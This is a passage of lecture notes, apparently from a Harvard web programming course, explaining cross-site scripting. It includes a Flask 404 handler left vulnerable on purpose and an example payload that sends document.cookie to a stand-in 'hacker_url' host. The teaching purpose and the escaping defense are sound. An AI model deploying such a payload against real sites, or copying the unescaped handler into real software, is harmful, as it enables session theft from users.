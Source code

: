 -   While HTML and CSS can be abused, they only affect how the browser renders a web page. With JavaScript arises the possibility for malicious code to be run inside the browser.

### [Cross-Site Scripting](https://cs50.harvard.edu/web/notes/11/#cross-site-scripting)

-   Similar to how SQL injections abused the possibilities for users to modify the code being run on a database, cross-site scripting consists of running some arbitrary JavaScript code inside a browser. Here’s is an example of a Flask application that is vulnerable to such an attack:

```
from flask import Flask, request

app = Flask(__name__)

@app.route("/")
def index():
    return "Hello, world!"

@app.errorhandler(404)
def page_not_found(e)
    return "Not Found: " + request.path

```

-   `page_not_found` will be run whenever the server returns a ‘404 Not Found’ response code, thanks to Flask’s built in error handler.
-   `request.path` is the URL which the user tried to access, but was not found by the server.
-   If, instead an incorrect path, the user entered some JavaScript code in the URL (for example, `/<script>alert('hi')</script>`), then that code will be rendered in the HTML and run.
-   Lots of modern browsers such as Chrome have cross-site scripting ‘auditors’ built-in that will detect relatively simple cases, such as the previous example, and will not render the page. Nonetheless, there are cases which will get past such auditors, and not all browsers will have such features.
-   More dangerous instancs of cross-site scripting can compromise passwords, credit card information, etc. Take the following script, for example:

```
/<script>document.write('<img src="hacker_url?cookie="+document.cookie+">")</script>

```

-   `document.write` adds new content to the HTML source.
-   The added content is an image, with a URL to some unknown site, but it is also being passed as a cookie `document.cookie`, which represents the cookie for the current page. If a hacker is monitoring the traffic to web server, then this request, which contains the cookie being used for the current site, is compromised. The hacker can then use that cookie to log in as that user on the current site. These are the sorts of vulnerabilites that cross-site scripting auditors try to protect against.
-   One defense against cross-site scripting, like SQL injection is to ensure that any potentially dangerous characters are escaped. Frameworks like Flask and Django can often be configured to do this automatically.
-   Cross-site scripting does not require JavaScript to passed through the URL. Here’s an example that abuses a database:
